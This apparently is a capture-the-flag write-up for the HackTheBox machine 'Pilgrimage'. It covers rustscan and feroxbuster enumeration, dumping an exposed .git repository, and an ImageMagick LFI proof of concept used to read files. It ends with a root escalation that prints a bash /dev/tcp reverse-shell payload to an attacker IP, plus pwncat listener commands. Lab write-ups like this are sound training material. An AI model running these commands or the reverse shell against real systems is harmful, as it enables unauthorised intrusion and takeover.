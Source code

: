 We run rustscan in order to enumerate the ports:

    rustscan -a 10.10.11.219

output:

    Open 10.10.11.219:22
    Open 10.10.11.219:80

we add the target machine at the /etc/hosts with the following command:

    sudo su
    echo "10.10.11.219    pilgrimage.htb" >> /etc/hosts

let's go on doing an enumeration of directories by using feroxbuster:

    sudo feroxbuster -u http://pilgrimage.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,json,docx,pdf,js,html,git,bak -t 150 -d 2

output:

    200      GET      198l      494w     7621c http://pilgrimage.htb/
    301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.htb/assets/
    301      GET        7l       11w      169c http://pilgrimage.htb/.git => http://pilgrimage.htb/.git/
    301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgrimage.htb/assets/images/
    200      GET       16l       58w     5158c http://pilgrimage.htb/.git/index

it's very interesting the .git folder, we must dump it, a very helpful tool can be gitdumper.py:

    python3 gitdumper.py http://pilgrimage.htb/.git/ 

it contains the backend of the server and alongside an elf called magik, by doing some researches it's the ImageMagick software, that it'used to modify an image.
Reading the sourcecode leads to us in two options: the first one is to try a revshell because inside the code, there is a php function called exec(), that it executes bash command by it'doesnt't work, the second one it was to doing some researches on internet and the most valuable link it was this:

	https://github.com/Sybil-Scan/imagemagick-lfi-poc

it does an LFI through adding code in the images.
The following command we try to execute the exploit:

	python3 generate.py -f "/var/db/pilgrimage" -o exploit.png
	/upload on the website, open and download the image/
	python3 generate.py -f "/etc/passwd" -o exploit.png
	identify -verbose result.png

Now inside the result.png there are hexdecimale values, there is the db itself holding the emily's credentials of the SSH.
Time to connect it:

	python3 -m pwncat
	connect ssh://emily:redatcted:10.10.11.219

Boom, we're inside and we can submit the user flag.
Inside /home/emily folder there was a static binaries called "pspy" that if yout run it, it will show you every active processes, one in particular caught my attention a malwarescan.sh, run by root and in short terms it used binwalk to check for malicious code inside the images uploaded by users.
I had an idea to create a fake exploit.png, with magic bytes same as a.png but with inside a revshell.
here the payload:

	/bin/bash -i >& /dev/tcp/10.9.59.103/6666 0>&1

we run the listener:

	python3 -m pwncat
	connect -lp 6666

we upload the image with the previous shell(aka SSH login):

	upload  YOUR PATH/exploit.png  /var/www/pilgrimage.htb/shrink/exploit.png

Sbam, if you check on the second pwncat shell we're the root and we can submit the root flag located in the /root folder.